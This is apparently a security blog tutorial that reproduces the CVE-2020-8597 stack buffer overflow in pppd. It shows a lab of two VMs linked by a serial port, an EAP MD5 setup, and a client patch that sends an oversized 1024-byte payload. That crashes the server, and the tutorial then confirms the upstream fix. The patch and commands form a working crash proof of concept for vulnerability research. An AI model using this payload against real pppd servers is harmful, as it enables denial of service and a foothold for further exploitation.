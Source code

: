 ```yaml
---
layout: post
title:  "CVE-2020-8597 - Buffer Overflow in pppd"
date:   2020-03-07 00:00:00 -0600
categories: cve buffer-overflow pppd proof-of-concept
author: Nicholas Starke
---
```


In this short tutorial we will go over how to reproduce the crash from CVE-2020-8597.  This is a stack-based buffer overflow in the `pppd` binary.

We will use our own `pppd` binary compiled from source, using the latest version: `2.4.8`.

To accomplish this goal, we will need two Virtual Machines connected by a virtual serial port.  I typically use VirtualBox since it is open source, but the same sort of configuration should work on other hypervisors.

I spun up two VMs: 

* `pppd-server`
* `pppd-client`

The serial configuration settings for `pppd-server` look like this:

![Server Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0001-server-serial-config.png "Server Serial Configuration")

The serial configuration settings for `pppd-client` look like this:

![Client Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0002-client-serial-config.png "Client Serial Configuration")

After configuring the serial settings, spin up and install your choice of Linux Distribution.  I chose `Ubuntu 19.10`, but any linux distro should work.

Make sure the `pppd-server` VM is started **before** the `pppd-client` VM.

Now we need to test the connectivity of the serial connection:

![Testing Serial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0003-testing-serial-connection.png "Testing Serial Connection")

When installation of the base operating system is completed and testing is successful, we will need a few packages to work with pppd:

```bash
# apt install build-essential gdb libssl-dev
```

Then we proceed to clone the `ppp` repository:

```bash
$ git clone https://github.com/paulusmack/ppp.git ~/ppp
```

Now on the server, we build and install `ppp`:

```bash
$ git checkout ppp-2.4.8
$ cd ~/ppp
$ ./configure
$ make
# make install
```

We now have `pppd` installed for the server.  Next repeat the instructions on `pppd-client`.

At this point we hae a version of `pppd` on both systems.  We need to then test the connection.

First, on the server, run the following command:

```bash
# pppd /dev/ttyS0 9600 noauth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8
```

Next, on the client, run the following command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600
```

Now we should see the connection open up:

![Initial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0005-initial-connection.png "Initial Connection")

Next we need to implement `EAP MD5-Challenge`.  We can do so by adjusting the server command and adding a file on the server filesystem.

The file we need to add is `/etc/ppp/chap-secrets` and should look like this:

```
admin   *       password        *
```

Where:

* `admin` is the username
* The first * is the server name
* `password` is the connection password
* The second * is the IP to accept connections from

Now we adjust the server command to:

```bash
# pppd /dev/ttyS0 9600 auth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap
```

The last thing we need to do is make some changes to the `pppd-client` pppd binary.  On `pppd-client`, clean up the ppp project in `~/ppp`:

```bash
$ make clean
```

Then apply the following patch:

```
diff --git a/pppd/eap.c b/pppd/eap.c
index 082e953..0754597 100644
--- a/pppd/eap.c
+++ b/pppd/eap.c
@@ -75,8 +75,7 @@
 #ifndef SHA_DIGESTSIZE
 #define        SHA_DIGESTSIZE 20
 #endif
-
-
+#define PAYLOAD_SIZE 1024
 eap_state eap_states[NUM_PPP];         /* EAP state; one for each unit */
 #ifdef USE_SRP
 static char *pn_secret = NULL;         /* Pseudonym generating secret */
@@ -1392,8 +1391,8 @@ int len;
 #endif /* USE_SRP */
                eap_send_response(esp, id, typenum, esp->es_client.ea_name,
                    esp->es_client.ea_namelen);
-               break;
 
+               break;
        case EAPT_NOTIFICATION:
                if (len > 0)
                        info("EAP: Notification \"%.*q\"", len, inp);
@@ -1457,8 +1456,12 @@ int len;
                BZERO(secret, sizeof (secret));
                MD5_Update(&mdContext, inp, vallen);
                MD5_Final(hash, &mdContext);
-               eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-                   esp->es_client.ea_namelen);
+               char payload[PAYLOAD_SIZE];
+               memset(payload, 'A', PAYLOAD_SIZE - 1);
+               payload[PAYLOAD_SIZE] = '\0';
+               eap_chap_response(esp, id, hash, payload, PAYLOAD_SIZE);
+               //eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+                //   esp->es_client.ea_namelen);
                break;
 
 #ifdef USE_SRP
```

You can apply this patch by saving it as a file like this:

```bash
$ git apply client-payload.patch
```

Where `client-payload.patch` is the file name where we saved the aforementioned patch.

I chose to use the approach of modifying he `pppd` binary to avoid having to script out the entire `LCP` handshake process that begins link negotation on `ppp`.  While it should be possible to craft your own client using `scapy` and `pyserial`, it was definitely easier to just modify the existing `pppd` binary to do what we want.

Now recompile the project:

```bash
$ ./configure
$ make
# make install
```

Now we adjust the client command to be:

```bash
# pppd auth local lock defaultroute debug nodetach /dev/ttyS0 960
```

Then we run the server command first, and the following client command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600 user notadmin password notpassword
```

You should see a crash now on the server:

![Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0006-crash.png "Crash")

Now, we want to verify the fix, so back on the server we run:

```bash
$ make clean
$ git checkout master
$ ./configure
$ make
# make install
```

Then repeat the last server+client commands!  You should not see a crash:

![No Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0007-no-crash.png "No crash")

Sources:

* [https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426)
* [https://www.virtualbox.org/wiki/PPP_Tunnel](https://www.virtualbox.org/wiki/PPP_Tunnel)